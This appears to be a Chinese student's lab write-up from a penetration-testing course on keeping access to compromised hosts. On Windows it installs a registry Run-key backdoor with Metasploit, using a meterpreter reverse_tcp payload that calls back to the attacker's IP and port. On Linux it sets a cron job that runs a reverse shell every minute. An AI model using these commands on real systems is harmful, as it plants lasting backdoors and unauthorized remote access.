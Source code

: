 ```yaml
---
title: 实验六--权限维持技术
category: 学习笔记
tags: [网络渗透测试技术、权限维持]
published: 2025-04-23 11:53:14
permalink: /course/wv34hxwx/
---
```

## 实验目的

1、学会使用工具写入windows注册表后门，使用linux计划任务进行权限维持。

## 实验任务

1、在获取windows主机权限后，写入注册表后门进行权限维持，并检验注册表后门的效果

2、在linux系统中写入计划任务后门，并检验计划任务是否正常运行

## 实验步骤

## windows 权限维持 注册后门

在获得shell后background退出
选择注册表后门模块

```text
use exploit/windows/local/persistence
```

然后选择好攻击模块设置参数，攻击机IP和端口，还有设置会话

```plaintext
set payload windows/x64/meterpreter/reverse_tcp  //这句可以不写，因为默认攻击模块就是这个
set lhost 192.168.100.133
set lport 4455
set session 1
run
```

![](./images/202312071143184.png)
在靶机的对应目录下找到了vbs文件
目录：`C:\Users\win7\AppData\Local\Temp\`
![](./images/202312071143185.png)

win+r打开运行输入regedit回车即可打开注册表
然后在 `KCU\Software\Microsoft\Windows\CurrentVersion\Run`下即可看到注册表也成功写入

![实验六_image_3](./images/202312071143186.png)回到攻击机设置msf，让两个红框的内容一致，执行run之后，重启靶机，即可发现，在登录了靶机之后msf自动上线成功

```
use multi/handler
set lhost 192.168.100.133
set lport 4455
run
```

![实验六_image_4](./images/202312071143187.png)

## linux权限维持   计划任务反弹shell

使用crontab命令进行反弹shell。crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹

（下面是以Ubuntu18.04为例）
1.服务开启
service cron start
2.编辑计划任务
crontab -e -u 用户名
3.查看计划任务
crontab -l -u 用户名
4.删除计划任务：
crontab -r -u 用户名

创建反弹shell脚本，vim  shell.sh
里面的 ip和端口号要和攻击机对应

![实验六_image_5](./images/202312071143188.png)

保存后还要更改文件的权限

![实验六_image_6](./images/202312071143189.png)
然后添加计划任务，需要root权限
vim /etc/crontab
设置反弹shell任务每分钟执行一次
要设置好文件的绝对路径

![实验六_image_7](./images/202312071143190.png)

kali使用nc启动监听，即可监听到shell

![实验六_image_8](./images/202312071143191.png)
